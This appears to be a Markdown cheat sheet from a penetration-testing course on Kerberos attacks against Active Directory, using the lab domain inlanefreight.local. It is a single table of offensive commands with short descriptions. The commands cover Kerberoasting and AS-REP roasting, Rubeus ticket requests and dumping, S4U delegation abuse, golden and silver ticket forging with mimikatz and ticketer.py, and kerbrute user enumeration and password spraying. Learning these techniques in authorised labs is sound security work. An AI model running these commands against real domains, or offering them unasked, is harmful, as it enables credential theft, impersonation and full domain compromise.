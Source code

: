 | `Command` | `Description` |
| --------------|-------------------|
| `Invoke-Kerberoast`  | Get Kerberoastable accounts & hashes on Windows  |
| `GetUserSPNs.py inlanefreight.local/pixis`  | Get Kerberoastable accounts & hashes on Linux |
| `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`  | Get AS-Rep roastable accounts & hashes on Windows |
| `GetNPUsers.py inlanefreight.local/pixis`  | Get AS-Rep roastable accounts & hashes on Linux |
| `Rubeus.exe monitor /interval:5`  | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation) |
| `Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt`  | Get a TGS using a TGT |
| `Rubeus.exe renew /ticket:<b64 ticket> /ptt`  | Renew a TGT and pass it in memory |
| `Get-DomainComputer -TrustedToAuth`  | Get service accounts with constrained delegation on Windows |
| `Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt`  | Perform a S4U2* attack on Windows |
| `findDelegation.py inlanefreight.local/pixis`  | Get service accounts with delegation on Linux |
| `getST.py -spn <SPN> -hashes :<NT Hash> 'domain/user' -impersonate <user>`  | Perform a S4U2* attack on Linux |
| `mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt`  | Forge a golden ticket on Windows |
| `ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>`  | Forge a golden ticket on Linux |
| `mimikatz # kerberos::golden /domain:inlanefreight.local /user:<user> /sid:<Domain SID> /rc4: <Service account NT hash> /target:<target service account> /service:<service>  /ptt`  | Forge a silver ticket on Windows |
| `ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User>`  | Forge a silver ticket on Linux |
| `Rubeus.exe dump /luid:0x89275d /service:krbtgt`  | Dumps TGT in memory |
| `kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local`  | Enumerate user accounts via Kerberos |
| `kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local`  | Password spraying via TGT request |

